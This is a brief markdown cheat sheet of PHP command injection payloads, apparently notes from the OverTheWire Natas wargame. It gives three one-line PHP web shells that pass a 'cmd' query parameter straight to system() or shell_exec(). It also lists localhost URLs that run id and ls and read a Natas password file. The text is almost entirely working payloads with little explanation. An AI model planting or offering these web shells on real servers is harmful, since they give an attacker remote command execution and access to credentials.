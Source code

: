 # [Attack]_injection

## php

### Inject exec linux command in query
```php
<?php system($_GET["cmd"]); ?>
```

```php
<?php echo shell_exec($_GET['cmd']);?>
```

```php
<?php echo system($_GET["cmd"]);?>
```

- `http://localhost:8080/shell.php?cmd=id`    
- `http://localhost:8080/shell.php?cmd=ls%20|ls`    
`%20` is the spacing in query    

- `http://localhost:8080/idk.php?cmd=cat  /etc/natas_webpass/natas12`  

## HTML / Javascript


